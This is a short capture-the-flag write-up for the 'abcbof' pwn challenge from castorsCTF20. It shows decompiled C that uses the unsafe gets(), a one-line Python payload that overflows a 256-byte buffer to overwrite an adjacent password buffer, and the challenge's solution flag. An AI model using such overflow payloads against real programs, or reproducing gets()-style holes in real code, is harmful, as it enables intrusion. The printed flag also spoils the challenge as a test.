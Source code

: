 ```yaml
---
type: "post"
title: "castorsCTF20 - abcbof"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "pwn", "castorsCTF20"]
---
```


<!--more-->
The executable file wants a password from us. So let's see if it uses `strcmp`
for comparing it. If that, and the text isn't encyripted we should able to see the
password. So let's run `ltrace ./abcbof` and give `aaaa` for password. Here is the
password! But when we tried it, it didn't work.

We can use `ghidra` for seeing why it didn't work.

```c
undefined8 main(void)

{
  int iVar1;
  char local_118 [256];
  char local_18 [16];

  printf("Hello everyone, say your name: ");
  gets(local_118);
  iVar1 = strcmp("CyberCastors",local_18);
  if (iVar1 == 0) {
    get_flag();
  }
  puts("You lose!");
  return 0;
}
```

We can now see it didn't work because our input is inside `local_118` and checked
password is inside `local_18`. But because gets is vulnerable, if we first print
256 times A and then the correct password we can get the flag!

```shell
 python -c "print('A'*256 + 'CyberCastors')" | ./abcbof
 ```

 **Flag:** `castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}`
